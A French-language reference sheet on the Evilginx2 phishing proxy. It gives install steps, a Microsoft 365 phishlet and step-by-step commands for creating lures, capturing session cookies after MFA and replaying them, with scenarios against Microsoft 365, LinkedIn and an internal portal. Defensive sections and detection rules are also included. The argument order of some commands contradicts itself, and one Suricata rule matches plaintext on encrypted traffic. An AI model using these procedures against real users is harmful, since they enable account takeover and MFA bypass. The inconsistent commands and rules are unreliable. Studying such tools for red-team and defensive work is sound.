

# Evilginx2 — Le framework de reverse proxy pour le détournement de session (2FA bypass)

> [!info] **En 1 phrase**
> Evilginx2 est un framework de phishing avancé qui agit comme un reverse proxy entre la victime et le vrai site web, volant cookies de session, jetons et données 2FA en temps réel sans héberger de site cloné.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | Evilginx2 (successeur d'Evilginx, v1 basée sur nginx) |
| Description | Reverse proxy man-in-the-middle (AiTM) : relais du vrai site, capture de cookies de session et de jetons 2FA, lures et sessions trackées |
| Catégorie | Social Engineering & Phishing |
| Sous-catégorie | Phishing AiTM / Session Hijacking |
| Type d'outil | Framework (binaire Go autonome avec serveur HTTP + DNS intégrés) |
| Licence | BSD-3-Clause |
| Open source / propriétaire | Open source (version Community) |
| Langage(s) | Go |
| Développeur / organisation | Kuba Gretzky (@mrgretzky) |
| Dépôt officiel | https://github.com/kgretzky/evilginx2 |
| Documentation officielle | https://github.com/kgretzky/evilginx2/wiki |
| Date de création | 2018 (succède à Evilginx 2017) |
| État du projet | actif (Community Edition) |
| Dernière version connue | v3.3.0 (2024-04-02) |
| Systèmes compatibles | Linux, macOS, Windows (binaires 64-bit) |

> [!note] Pour vérifier / compléter
> Evilginx Pro (payant) ajoute Phishlets 2.0 et des fonctionnalités supplémentaires ; cette fiche couvre la **Community Edition 3.3.0**.

---

## Concept

Evilginx2, développé par Kuba Gretzky, n'héberge pas de fausses pages : il **proxie en temps réel** le trafic entre la victime et le vrai site (Google, Microsoft, GitHub, etc.). La victime voit une URL contrôlée par l'attaquant (par exemple `https://login-security.microsoft-verif.example.com`), mais le contenu provient du site réel. Chaque requête est relayée, ce qui permet de capturer les **cookies de session** après la saisie des identifiants ET du code 2FA (MFA). C'est l'outil phare du phishing de type "adversary-in-the-middle" (AiTM), extrêmement efficace contre le 2FA par SMS ou TOTP. Il exige un domaine contrôlé, des certificats SSL valides (auto-obtenus via Let's Encrypt par défaut) et un DNS wildcard (`*.domaine.com`) pointant vers le serveur.

Il se place dans la phase de **social engineering / phishing** d'une campagne de test : après l'envoi d'un leurre (email, SMS, DM), la victime se connecte, valide son MFA et l'attaquant rejoue le cookie de session dans son propre navigateur pour reprendre la session à froid — sans avoir besoin de cracker le mot de passe. Le fonctionnement repose sur des **phishlets** : des profils prêts à l'emploi décrivant les routes, le relai et les patterns de session d'une cible précise.

Chaque leurre (`lure`) embarque une URL unique à traçage : les clics, les visites et les saisies de la victime sont horodatés et regroupés par session. Le framework conserve aussi l'historique des phishlets activés et des domaines, ce qui facilite la gestion de plusieurs campagnes en parallèle sans croiser les données. La création d'un phishlet personnalisé (pour un portail interne par exemple) se fait via le fichier YAML du phishlet : routes à proxier, patterns de cookies à capturer, jetons à extraire. Depuis la version 3.3.0, Evilginx2 s'intègre officiellement avec [[Outil - GoPhish]] (via le fork `kgretzky/gophish`) pour l'envoi des leurres.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Adversary-in-the-Middle (AiTM) | L'attaquant se place entre la victime et le vrai service et relaie le trafic en temps réel ; il voit et modifie les requêtes/réponses |
| Phishlet | Fichier YAML décrivant une cible : `proxy_hosts` (domaines relayés), `sub_filters` (réécriture d'URL), `auth_tokens` (cookies/headers à capturer), `credentials` (champs de login), `login` (URL de détection de session) |
| Lure | URL de phishing générée, associée à un phishlet et un hostname ; chaque lure a son ID et son URL unique de traçage |
| DNS wildcard | Enregistrement `*.phish.example.com` pointant vers le serveur : indispensable pour que chaque hostname de phishing résolve |
| Let's Encrypt (autocert) | Evilginx2 obtient automatiquement les certificats TLS pour les hostnames (`config autocert on`) |
| `sub_filters` | Règles de réécriture du HTML/JS pour remplacer les URLs du vrai site par celles du domaine de phishing |
| `auth_tokens` | Cookies (ex : `sessionid`, `.AspNetCore.Cookies`) et headers (ex : `Authorization: Bearer`) capturés dès l'authentification |
| Session hijacking | Rejeu des cookies volés dans un navigateur contrôlé pour reprendre la session validée par MFA |
| FIDO2 / WebAuthn | Méthode de 2FA liée à l'origine (challenge signé) : **non phishable**, Evilginx2 ne peut pas la contourner |

---

## Installation

### Binaire précompilé (recommandé)

```bash
# Télécharger depuis https://github.com/kgretzky/evilginx2/releases
# ex : evilginx-v3.3.0-linux-64bit.zip
unzip evilginx-v3.3.0-linux-64bit.zip
sudo ./evilginx
```

### Compilation depuis les sources (Go)

```bash
sudo apt install -y golang make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
sudo ./bin/evilginx
```

### Kali / Parrot

```bash
# Paquet parfois disponible dans les dépôts
sudo apt install evilginx2
```

> [!warning] Prérequis & problèmes potentiels
> - **Domaine contrôlé + DNS wildcard `*.<domaine>` vers l'IP publique du serveur** : sans cela, les lures ne résolvent pas.
> - Le port **443** (et 80 pour l'HTTP challenge ACME) doit être ouvert ; `sudo` requis pour les ports privilégiés.
> - `config autocert on` (défaut) nécessite un accès Internet sortant vers Let's Encrypt ; en lab, utiliser `config autocert off` + certificats custom dans `~/.evilginx/crt/sites/<hostname>/`.
> - Les phishlets s'installent dans `~/.evilginx/phishlets/` ; ils s'usent vite (Google/Microsoft changent leurs formulaires) — les tester avant une campagne.

---

## Configuration

La configuration se fait par **commandes interactives** à l'intérieur du shell Evilginx2 (persistées dans `~/.evilginx/`), pas par fichier de config global.

| Commande | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `config domain <d>` | Domaine racine de phishing | FQDN | Base de tous les hostnames | `config domain phish.example.com` |
| `config ip <ip>` | IP publique du serveur | IPv4 | Résolution des hostnames | `config ip 203.0.113.10` |
| `config redirect_key <r>` | Paramètre de redirection après session | chaîne | `url` par défaut | `config redirect_key url` |
| `config autocert <on/off>` | Obtention automatique des certificats TLS | on/off | Let's Encrypt vs certs custom | `config autocert on` |
| `config hostname_blacklist <h>` | Hostname exclu du phishing | FQDN | Evite de phisher vos propres domaines | `config hostname_blacklist corp.example.com` |
| `phishlets hostname <p> <h>` | Associe un hostname à un phishlet | FQDN | URL utilisée pour les lures | `phishlets hostname microsoft login-security.phish.example.com` |
| `phishlets enable <p>` | Active un phishlet | nom | Le phishlet devient utilisable | `phishlets enable microsoft` |
| `phishlets unauth_url <p> <url>` | URL montrée si requête non authentifiée | URL | Page blanche/404 crédible | `phishlets unauth_url microsoft https://example.com` |

### Structure d'un phishlet YAML

```yaml
meta:
  author: "exemple"
  name: "microsoft"
  description: "Microsoft 365 (OAuth)"
min_ver: "3.3.0"
proxy_hosts:
  - {phish_sub: "login.microsoftonline.com", orig_sub: "login.microsoftonline.com", session: true}
auth_tokens:
  - {domain: ".login.microsoftonline.com", keys: ["ESTSAUTH", "ESTSAUTHPERSISTENT"]}
credentials:
  username: "loginfmt"
  password: "passwd"
login:
  domain: "login.microsoftonline.com"
  path: "/common/oauth2/v2.0/authorize"
```

> [!note] À vérifier
> Le format exact d'un phishlet dépend de la version (3.x) ; récupérer des phishlets à jour et testés (ex : https://github.com/AnR0ck/Evilginx-Phishlets) et les adapter avant usage.

---

## Architecture interne

Evilginx2 est un **binaire Go autonome** qui embarque son propre serveur HTTP et son propre serveur DNS :

- **Serveur DNS intégré** (port 53/udp) : résout les hostnames de phishing en fonction de `config ip` (mode « dns »), avec un fichier hosts local alternatif possible.
- **Serveur HTTP/HTTPS** (ports 80/443) : sert les lures, effectue le proxy vers les `orig_sub` des `proxy_hosts`, applique les `sub_filters` et `js_inject`.
- **Moteur ACME** : obtention automatique des certificats Let's Encrypt pour chaque hostname (`config autocert`).
- **Module lures** : génération d'URLs uniques, horodatage des clics, persistance des lures dans `~/.evilginx/`.
- **Module sessions** : chaque session est identifiée par un ID ; `sessions` liste, `sessions <id>` dump des cookies/credentials capturés, `sessions export` sauvegarde.
- **Moteur de phishlets** : charge les YAML, compile les règles de réécriture et les patterns de capture.
- **Intégration GoPhish** (3.3.0) : le fork `kgretzky/gophish` envoie les lures et reçoit les sessions capturées.

Flux d'exécution : la victime clique un lure → DNS résout vers votre IP → TLS (certificat ACME) → requête proxifiée vers `login.microsoftonline.com` → `sub_filters` réécrivent les URLs dans les réponses → à la connexion, `auth_tokens` capture les cookies → la session apparaît dans `sessions` → l'opérateur la rejoue.

---

## Commandes

### Commandes principales

```bash
# Lancer le serveur (peut nécessiter sudo pour le port 443)
sudo ./evilginx
```

| Option | Effet |
|---|---|
| `config domain <domaine.com>` | Définit le domaine utilisé pour le phishing |
| `config ip <ip>` | IP du serveur (externe) |
| `phishlets hostname <phishlet> <hostname>` | Associe un hostname au phishlet |
| `phishlets enable <phishlet>` | Active le phishlet (Google, Microsoft, GitHub, etc.) |
| `lures create <phishlet>` | Crée un leurre (lure) avec URL de phishing |
| `lures get-url <lure_id>` | Récupère l'URL complète du phishing |
| `lures preview <id>` | Prévisualise la page rendue par le leurre avant envoi |
| `sessions` | Liste les sessions actives |
| `sessions <id>` | Affiche les cookies/identifiants capturés de la session |
| `phishlets list` | Liste les phishlets disponibles et leur état |
| `help` | Aide complète sur les commandes |

### Commandes avancées

```bash
# Désactiver l'autocert pour utiliser des certificats custom (lab)
config autocert off

# Sauvegarder les sessions capturées
sessions export
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `config domain` | Domaine racine | `config domain phish.example.com` | Basic |
| `config ip` | IP publique | `config ip 203.0.113.10` | Basic |
| `phishlets hostname` | Associer hostname | `phishlets hostname microsoft login.phish.example.com` | Basic |
| `phishlets enable` | Activer un phishlet | `phishlets enable microsoft` | Basic |
| `lures create` | Créer un leurre | `lures create microsoft` | Intermediate |
| `lures get-url` | URL du leurre | `lures get-url 0` | Intermediate |
| `lures preview` | Vérifier le rendu | `lures preview 0` | Intermediate |
| `sessions` / `sessions <id>` | Sessions capturées | `sessions 2` | Intermediate |
| `config autocert` | TLS auto | `config autocert off` | Advanced |
| `sessions export` | Sauvegarde | `sessions export` | Advanced |
| `phishlets unauth_url` | Page neutre | `phishlets unauth_url microsoft https://example.com` | Advanced |
| `-developer` | Mode dev (sans TLS, certs locaux) | `./evilginx -developer` | Expert |

> [!tip] Options les plus utiles au quotidien
> `config domain` + `config ip` (fondation), `phishlets hostname/enable` (cible), `lures create/get-url` (le lien à envoyer), `sessions` (la récolte), `lures preview` (contrôle qualité avant envoi).

---

## Exemples pratiques

### Beginner

```bash
sudo ./evilginx
config domain phish.example.com
config ip 203.0.113.10
phishlets hostname login-security.phish.example.com microsoft
phishlets enable microsoft
lures create microsoft
lures get-url 0
# Envoyer l'URL à la victime ; après connexion+MFA : sessions
```

### Intermediate

```bash
# Prévisualiser le lure avant envoi et créer plusieurs lures (traçage par campagne)
lures preview 1
lures create microsoft
lures get-url 1
```

### Advanced

```bash
# Phishlet personnalisé pour un portail interne en YAML
# ~/.evilginx/phishlets/portal_internal.yaml :
#   proxy_hosts: [{phish_sub: "portal.verif-maj.phish.example.com",
#                  orig_sub: "login.internal.corp", session: true}]
#   auth_tokens: [{domain: ".corp", keys: ["sessionid", "csrf"]}]
phishlets hostname portal.verif-maj.phish.example.com portal_internal
phishlets enable portal_internal
lures create portal_internal
```

### Expert

```bash
# Certificats custom pour un domaine non délivré par ACME (lab/HTTPS strict)
config autocert off
mkdir -p ~/.evilginx/crt/sites/login-security.phish.example.com/
# Placer fullchain.pem et privkey.pem dans ce dossier, puis recharger
phishlets enable microsoft
lures create microsoft
```

---

## Workflow complet (scénario pas à pas)

1. **Étape 1 — Configurer le domaine et le DNS** — créer un sous-domaine wildcard et pointer le DNS vers votre VPS.
   ```bash
   sudo ./evilginx
   config domain exemple-phishing.com
   config ip 203.0.113.10
   ```
2. **Étape 2 — Activer un phishlet** — charger un profil cible prêt à l'emploi.
   ```bash
   phishlets hostname o365-login.exemple-phishing.com microsoft
   phishlets enable microsoft
   ```
3. **Étape 3 — Générer un leurre** — créer l'URL à envoyer à la victime.
   ```bash
   lures create microsoft
   lures get-url 0
   ```
4. **Étape 4 — Envoyer le lien** — distribuer l'URL via email, SMS ou messagerie.
5. **Étape 5 — Récupérer la session** — dès que la victime se connecte et valide le 2FA, Evilginx2 capture le cookie de session.
   ```bash
   sessions
   sessions 1
   ```
6. **Étape 6 — Rejouer la session** — injecter les cookies volés dans un navigateur (EditThisCookie / DevTools) pour reprendre la session à froid.

---

## Scénarios avancés

### Scénario 1 : MFA bypass complet sur Microsoft 365

```bash
phishlets hostname login-security.microsoft-verif.exemple-phishing.com microsoft
phishlets enable microsoft
lures create microsoft
lures get-url 0
# Après connexion de la victime (identifiants + code 2FA) :
sessions 1
# Copier le cookie de session et l'injecter dans le navigateur (EditThisCookie,
# ou cookie JSON) pour reprendre la session à froid.
```

### Scénario 2 : session hijacking sur réseaux sociaux

```bash
# Phishlet 'linkedin' disponible dans la liste
phishlets hostname secure.linkedin.exemple-phishing.com linkedin
phishlets enable linkedin
lures create linkedin
# Envoyer l'URL via un DM ou un email ciblé ; récupérer la session dans
# 'sessions' puis la rejouer pour postuler du compte volé.
```

### Scénario 3 : serveur dissimulé derrière un domaine générique

```bash
# Utiliser un domaine générique (ex. ex-mise-a-jour-doc.xyz) et un phishlet
# 'microsoft' avec un hostname crédible pour l'email de campagne.
config domain ex-mise-a-jour-doc.xyz
config ip 203.0.113.10
phishlets enable microsoft
lures create microsoft
lures get-url 0
```

### Scénario 4 : phishlet personnalisé pour un portail interne

```bash
# Editer le YAML du phishlet (phishlets/portal_internal.yaml) :
#   - proxy_hosts : proxy vers https://login.internal.corp (URL du vrai portail)
#   - credentials : "username" et "password" (champs de formulaire)
#   - auth_tokens : "sessionid" (cookie de session à extraire)
phishlets hostname portal.verif-maj.exemple-phishing.com portal_internal
phishlets enable portal_internal
lures create portal_internal
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Initial Access | Le lure (email/SMS/DM) amène la victime sur le proxy (T1566.002) |
| Credential Access | Capture identifiants + cookies de session (T1539) |
| Credential Access | Interception MFA : le code 2FA passe par le proxy (T1111) |
| Lateral Movement | Session volée d'un compte privilégié rejouée pour pivoter |
| Exfiltration | Cookies de session exportés et rejoués hors de la session (sessions export) |
| Red team | Validation d'un bypass 2FA réel sur le SI de l'entreprise |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Le lure renvoie vers le proxy AiTM | Analyse URL, sandbox, filtrage web | SPF/DKIM/DMARC, sensibilisation |
| Initial Access | Valid Accounts: Default Accounts | T1078.001 | Rejeu des identifiants capturés | Anomalies de login | MFA FIDO2, verrouillage |
| Credential Access | Steal Web Session Cookie | T1539 | Capture et rejeu des cookies de session | Détection d'anomalies de session (IP, U-A) | Rotation de session, géofencing |
| Credential Access | Multi-Factor Authentication Interception | T1111 | Le flux MFA est relayé en temps réel | Double connexion simultanée | Clés FIDO2/WebAuthn (non phishables) |
| Lateral Movement | Use Alternate Authentication Material | T1550 | Rejeu des cookies pour se déplacer | Connexions depuis IP inattendues | Conditional Access, PAM |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Evilginx2 est l'archétype de T1566.002 + T1539 + T1111 : phishing AiTM avec rejeu de session.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| URL avec un nom de domaine étrange (ressemblance, TLD exotique) | Typosquat + wildcard pointant vers une IP cloud |
| Domaines récemment enregistrés pointant vers des IP cloud | Nouveaux enregistrements DNS (alerting) |
| Cookies de session réutilisés depuis un IP/géolocalisation différente | Rejeu à froid détectable par l'anomalie de source |
| Double connexion demandée de manière suspecte | Deux sessions sur le même compte simultanément |
| Certificat TLS valide mais émis très récemment | ACME (Let's Encrypt) pour un domaine neuf |
| Trafic vers un domaine proche du vôtre | Monitoring des hostnames similaires |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — windows dns_query : résolution de domaines typosquat type Evilginx
title: Suspicious Newly Registered Domain Resolution (DNS)
id: b2c3d4e5-f6a7-8901-2345-6789abcdef01
status: experimental
logsource:
    category: dns_query
    product: windows
detection:
    selection:
        QueryName|endswith:
            - '.xyz'
            - '.top'
            - '.lol'
    condition: selection
falsepositives:
    - Browsing of legitimate new TLD sites
level: medium
```

```bash
# Suricata — trafic HTTP vers un serveur Evilginx (panneau de phishlet)
alert tcp any any -> any 443 (msg:"ET Suspicious evilginx phish domain pattern"; \
  content:"/phishlet"; nocase; classtype:attempted-admin; sid:20260003; rev:1;)
```

---

## Automatisation

```bash
# Bash — envoi du lure via l'intégration GoPhish (fork kgretzky/gophish)
# 1) Lancer le fork GoPhish, créer une campagne
# 2) Evilginx2 expose les lures ; GoPhish insère automatiquement l'URL
./gophish &
sudo ./evilginx
# Dans GoPhish : Template → Evilginx lure → campagne envoyée
```

---

## Output et parsing

Les sessions capturées s'affichent dans le shell (`sessions <id>`) et sont persistées dans `~/.evilginx/sessions/` en JSON : cookies (domaine, path, valeurs), credentials (username/password), tokens et User-Agent.

```bash
# Lire une session sauvegardée
jq '.' ~/.evilginx/sessions/*.json | head -60
```

> [!note] À vérifier
> Le chemin et le schéma des sauvegardes varient selon les versions ; utiliser `sessions export` officiel en priorité.

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - GoPhish]] — envoi des lures (intégration officielle 3.3.0 via le fork `kgretzky/gophish`)
- [[Outil - Modlishka]] — reverse proxy alternatif multi-domaine
- [[Outil - CredSniper]] — phishing 2FA simplifié, complément lab
- [[Outil - SET]] — autres vecteurs de phishing (email, payloads)
- [[Outil - BeEF]] — post-exploitation du navigateur une fois la session reprise
- [[Outil - Wireshark]] / [[Outil - tcpdump]] — validation des échanges proxy (bonus lab)
- [[Outil - Nmap]] — vérification que 80/443 sont ouverts sur le VPS

```text
GoPhish → lure → victime → Evilginx2 proxy → site réel → session volée → replay
```

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Modlishka]] | Réplication multi-domaines, templates JSON | Plus lourd, config complexe | Tests AiTM massifs |
| [[Outil - CredSniper]] | Simple, flux 2FA statique | Pas de session réelle | Démo rapide |
| [[Outil - GoPhish]] | Tracking, templates, reporting | Pas de bypass 2FA | Awareness |
| Muraena | Reverse proxy avec réécriture, post-hijack | Moins maintenu | Alternative open source |
| Evilginx Pro | Phishlets 2.0, support commercial | Payant | Red team pro |

> **Quand utiliser Evilginx2 plutôt que GoPhish ?** Quand l'objectif est le **vol de session avec bypass MFA** : Evilginx2 relaie le vrai service et capture les cookies, là où GoPhish ne fait que collecter des identifiants sur une page clonée.

---

## Performance

- Binaire Go unique, **très léger** : un VPS 1 vCPU / 1 Go suffit pour des dizaines de victimes.
- Le serveur DNS intégré répond en quelques millisecondes ; l'ACME n'ajoute du travail qu'à la création de nouveaux hostnames.
- La latence perçue par la victime ≈ latence du proxy + latence du vrai site (un bon réseau de relais compte).
- L'utilisation de `sub_filters` lourds (gros HTML) peut augmenter le temps de traitement de chaque réponse.

> [!note] À vérifier
> Pas de benchmarks officiels ; ordres de grandeur issus de déploiements documentés (breakdev.org).

---

## Troubleshooting

### Common problems

#### Problème : « lure URL not resolving » / DNS ne répond pas

- **Cause** : wildcard DNS absent ou `config ip` erroné.
- **Solution** : créer `*.<domaine>` vers l'IP publique, vérifier `dig @<vps> <hostname>`, corriger `config ip`.
- **Vérification** : `dig login-security.phish.example.com`.

#### Problème : la victime voit une alerte de certificat

- **Cause** : `config autocert off` sans certificats custom, ou port 80 bloqué (challenge ACME).
- **Solution** : réactiver `config autocert on`, ouvrir 80/443, ou déposer `fullchain.pem`/`privkey.pem` dans `~/.evilginx/crt/sites/<hostname>/`.
- **Vérification** : `curl -v https://<hostname>` — pas d'erreur SSL.

#### Problème : le phishlet ne capture pas la session

- **Cause** : les `auth_tokens` ne correspondent plus (Google/Microsoft ont changé leurs cookies).
- **Solution** : mettre à jour le phishlet, tester avec un compte jetable, vérifier avec `sessions`.
- **Vérification** : `sessions` après une connexion de test.

---

## Sécurité de l'outil

- **Légalité** : Evilginx2 est une arme d'accès — usage uniquement sur périmètre autorisé par écrit.
- **Données sensibles** : cookies/identifiants capturés = données personnelles ; restreindre l'accès aux sessions (`~/.evilginx/`), chiffrer le stockage.
- **Exposition du contrôleur** : le shell Evilginx2 ne doit pas être accessible à distance non contrôlée ; utiliser SSH/VPN.
- **Détectabilité** : les domaines wildcard récents et les certificats ACME neufs sont des signaux faibles pour les défenseurs ; en red team, faire attention aux TLD et à la crédibilité du domaine.
- **Téléchargement** : toujours vérifier les checksums des binaires (le fichier est signé par Kuba Gretzky).

---

## Limitations

- **FIDO2/WebAuthn non contournable** : le 2FA par clé matérielle résiste à Evilginx2.
- Nécessite **domaine + certificat valide + DNS wildcard** : l'attaque échoue sans cette infrastructure.
- Les cookies capturés **expirent** : la session doit être rejouée rapidement.
- Phishlets **fragiles** : chaque changement des portails cibles (Google, MS, Okta) casse les captures.
- Configuration **interactive** : pas de fichier de config déclaratif complet (orchestration limitée).
- Pas de gestion multi-opérateurs native en Community Edition.

---

## Cheatsheet

```bash
# Lancer Evilginx2
sudo ./evilginx

# Configuration initiale
config domain phish.example.com
config ip 203.0.113.10

# Phishlet
phishlets hostname login-security.phish.example.com microsoft
phishlets enable microsoft
phishlets list

# Lure
lures create microsoft
lures get-url 0
lures preview 0

# Après capture
sessions
sessions 1
sessions export

# TLS
config autocert off
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Phishing AiTM : proxy du vrai site, vol de session et bypass 2FA |
| **Quand l'utiliser ?** | Red team / test : prouver qu'un 2FA SMS/TOTP est contournable |
| **Commande principale** | `sudo ./evilginx` puis `config domain`, `phishlets enable`, `lures create` |
| **Alternative principale** | [[Outil - Modlishka]] / [[Outil - CredSniper]] |
| **Concepts importants** | Phishlet, lure, DNS wildcard, autocert, auth_tokens, session replay |
| **Liens associés** | [[Outil - GoPhish]] · [[Outil - Modlishka]] · [[Outil - CredSniper]] · [[Outil - BeEF]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| URL avec un nom de domaine étrange (ressemblance, TLD exotique) | Sensibiliser à l'analyse des URL et du certificat TLS |
| Domaines récemment enregistrés pointant vers des IP cloud | Détection de nouveaux domaines et alerting DNS |
| Cookies de session réutilisés depuis un IP/géolocalisation différente | Détection d'anomalies de session, geofencing |
| Double connexion demandée de manière suspecte | MFA basé sur clés FIDO2 (WebAuthn) : résistant au proxy |
| Défense DNS/SSL pour les domaines similaires aux vôtres | Enregistrement préventif de domaines typosquat, surveillance |
| Certificats ACME émis pour des hostnames récents | Monitoring des émissions de certificats (Certificate Transparency) |

---

## Tips & Pièges

> [!tip] **Tips**
> - Activez un phishlet à la fois et utilisez des sous-domaines réalistes : un phishlet mal configuré casse toute la démo.
> - Faites un premier test avec un compte jetable pour valider le phishlet et la capture de session avant la vraie campagne.
> - Utilisez `lures preview <id>` pour vérifier que le lien affiche bien une vraie page de connexion.
> - Conservez les sessions sauvegardées (`sessions export`) pour la preuve d'engagement.

> [!warning] **Pièges**
> - Sans **vrai domaine + certificat SSL valide**, la victime verra une alerte de certificat et l'attaque échouera.
> - Le **DNS wildcard** est obligatoire pour que chaque sous-domaine de phishing fonctionne.
> - Les cookies capturés expirent rapidement : rejouez la session immédiatement après capture.
> - Le 2FA par clé FIDO2/WebAuthn ne peut PAS être contourné par Evilginx2.

---

## References

### Official

- Dépôt GitHub : https://github.com/kgretzky/evilginx2
- Wiki officiel : https://github.com/kgretzky/evilginx2/wiki
- Releases : https://github.com/kgretzky/evilginx2/releases
- Blog de Kuba Gretzky (breakdev) : https://breakdev.org/

### Security references

- MITRE ATT&CK T1566.002 — Spearphishing Link : https://attack.mitre.org/techniques/T1566/002/
- MITRE ATT&CK T1539 — Steal Web Session Cookie : https://attack.mitre.org/techniques/T1539/
- MITRE ATT&CK T1111 — Multi-Factor Authentication Interception : https://attack.mitre.org/techniques/T1111/
- OWASP — Phishing : https://owasp.org/www-community/attacks/Phishing

### Community

- Phishlets communautaires (AnR0ck) : https://github.com/AnR0ck/Evilginx-Phishlets
- Blog — Evilginx 3.3 « Go & Phish » : https://breakdev.org/evilginx-3-3-go-phish/
- Blog — Evilginx 3.0 Mastery : https://breakdev.org/evilginx-3-0-evilginx-mastery/

---

**Liens :** [[Tools| Outils]] · [[Outil - Modlishka|Modlishka]] · [[Outil - GoPhish|GoPhish]] · [[Outil - CredSniper|CredSniper]] · [[Outil - SET|SET]]
